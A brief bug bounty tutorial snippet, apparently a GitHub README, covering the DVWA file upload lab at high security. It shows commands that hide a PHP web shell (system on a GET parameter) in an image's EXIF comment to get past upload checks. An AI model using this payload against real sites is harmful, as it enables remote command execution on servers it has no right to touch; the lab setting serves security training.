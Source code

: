 # bug-bounty-tutorial
bug bounty tutorial

## 3.dvwa file upload high
```
apt-get install exiftools

exiftools -Comment="<?php echo system(\$_GET["cmd"]); ?>" image_name

```
